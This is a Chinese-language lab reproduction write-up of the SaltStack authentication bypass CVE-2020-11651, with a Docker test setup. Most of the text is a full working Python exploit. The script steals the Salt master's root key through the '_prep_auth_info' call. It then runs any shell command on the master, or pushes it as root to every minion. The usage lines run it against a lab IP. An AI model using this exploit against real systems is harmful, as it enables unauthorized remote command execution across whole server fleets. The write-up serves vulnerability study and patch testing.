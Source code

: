 # SaltStack 水平权限绕过漏洞 CVE-2020-11651

## 漏洞描述

SaltStack 是基于 Python 开发的一套C/S架构配置管理工具。国外某安全团队披露了 SaltStack 存在认证绕过漏洞（CVE-2020-11651）和目录遍历漏洞（CVE-2020-11652）。

在 CVE-2020-11651 认证绕过漏洞中，攻击者通过构造恶意请求，可以绕过 Salt Master 的验证逻辑，调用相关未授权函数功能，从而可以造成远程命令执行漏洞。

参考链接：

- https://labs.f-secure.com/advisories/saltstack-authorization-bypass
- https://github.com/rossengeorgiev/salt-security-backports
- https://github.com/saltstack/salt/blob/a67d76b15615983d467ed81371b38b4a17e4f3b7/tests/integration/master/test_clear_funcs.py

## 环境搭建

Vulhub执行如下命令启动一个SaltStack Master服务：

```
docker-compose up -d
```

环境启动后，将会在本地监听如下端口：

- 4505/4506 这是SaltStack Master与minions通信的端口
- 8000 这是Salt的API端口
- 2222 这是容器内部的SSH服务器监听的端口

## 漏洞复现

本文档复现CVE-2020-11651漏洞。

我们可以使用如下请求来执行`salt/master.py`中的`ClearFuncs:_prep_auth_info`方法：

```
{'cmd': '_prep_auth_info'}
```

利用这个方法，可以获得目标的所有用户的key，利用这个key即可通过超级管理员权限执行一些后台功能，比如下发任务等。

使用[这个POC](https://github.com/dozernz/cve-2020-11651)，首先获取Key，再在master中执行`touch /tmp/success`：

```python
#!/usr/bin/env python3

# POC for exploiting CVE-2020-11651. CVE-2020-11652 not included, but this one is the really powerful one and it should be easy enough to figure out how to get 11652 working if you need.
# Author: @dozernz
# Some code adapted from https://github.com/rossengeorgiev/salt-security-backports
#
# Pre-requsities: pip3 install salt


import os
import sys

import salt
import salt.version
import salt.transport.client
import salt.exceptions
import datetime


def ping_master():
    print("Attempting to ping master at "+master_ip)
    try:
        msg = {"cmd":"ping"}
        response = clear_channel.send(msg, timeout=3)
        if response:
            return True
    except salt.exceptions.SaltReqTimeoutError:
        return False

    return False


def get_rootkey():
    try:
        response = clear_channel.send({'cmd':'_prep_auth_info'}, timeout=2)
        for i in response:
            if isinstance(i,dict) and len(i) == 1:
                rootkey = list(i.values())[0]
                print("Retrieved root key: " + rootkey)
                return rootkey

        return False
        
    except:
        return False


def send_command_to_minions(command):
    print("Sending command to all minions on master")
    jid = "{0:%Y%m%d%H%M%S%f}".format(datetime.datetime.utcnow())
    cmd = "/bin/sh -c '{0}'".format(command)

    msg = {'cmd':"_send_pub","fun":"cmd.run","arg":[cmd],"tgt":"*","ret":"","tgt_type":"glob","user":"root","jid":jid}

    try:
        response = clear_channel.send(msg,timeout=3)
        if response == None:
            return True
        else:
            return False
    except:
        return False



def master_shell(root_key,command):
    # This is achieved by using the stolen key to create a "runner" on the master node using the cmdmod module, then the cmd.exec_code function to run some python3 code that shells out.
    # There is a cmd.shell function but I wasn't able to get it to accept the "cmd" kwarg parameter for some reason.
    # It's also possible to use CVE-2020-11652 to get shell if the master instance is running as root by writing a crontab into a cron directory, or proably some other ways.
    # This way is nicer though, and doesn't need the master to be running as root .


    msg = {"key":root_key,
            "cmd":"runner",
            'fun': 'salt.cmd',
            "kwarg":{
                "fun":"cmd.exec_code",
                "lang":"python3",
                "code":"import subprocess;subprocess.call('{}',shell=True)".format(command)
                },
            'jid': '20200504042611133934',
            'user': 'sudo_user',
            '_stamp': '2020-05-04T04:26:13.609688'}

    try:
        response = clear_channel.send(msg,timeout=3)
        print("Got response for attempting master shell: "+str(response)+ ". Looks promising!")
        return True
    except:
        print("something failed")
        return False



if __name__=="__main__":
    if len(sys.argv) <= 2:
        print("Not enough args")
        print("Use like python3 cve-2020-11651.py <targetip> <master/minions/fetchkeyonly> <command>")
        sys.exit(1)
    
    
    target = sys.argv[1]
    master_minion_root = sys.argv[2]


    master_ip = target
    master_port = '4506'

    minion_config = {

    'transport': 'zeromq',
    'pki_dir': '/tmp',
    'id': 'root',
    'log_level': 'debug',
    'master_ip': master_ip,
    'master_port': master_port,
    'auth_timeout': 5,
    'auth_tries': 1,
    'master_uri': 'tcp://{0}:{1}'.format(master_ip, master_port)
    }

    clear_channel = salt.transport.client.ReqChannel.factory(minion_config, crypt='clear')

    if not ping_master():
        print("Failed to ping the specified master server, exiting")
        sys.exit(1)


    if master_minion_root == "master" or master_minion_root == "minions":
        command = sys.argv[3]
        rootkey = get_rootkey()
        if not rootkey:
            print("Failed to fetch the root key from the instance. This MAY indicate that it is patched")
            sys.exit(1)
        else:
            if master_minion_root == "master":
                master_shell(rootkey,command)
            else:
                send_command_to_minions(command)

    elif master_minion_root == "fetchkeyonly":
        get_rootkey()

    else:
        print("Invalid usage")
```

获取key：

```
python CVE-2020-11651.py 192.168.174.128 fetchkeyonly
```

![image-20220228194719579](./images/202202281947375.png)

执行命令`touch /tmp/awesome_poc`：

```
python CVE-2020-11651.py 192.168.174.128 master "touch /tmp/awesome_poc"
```

![image-20220228194733635](./images/202202281947385.png)

成功执行命令`touch /tmp/awesome_poc`：

![image-20220228194524614](./images/202202281945708.png)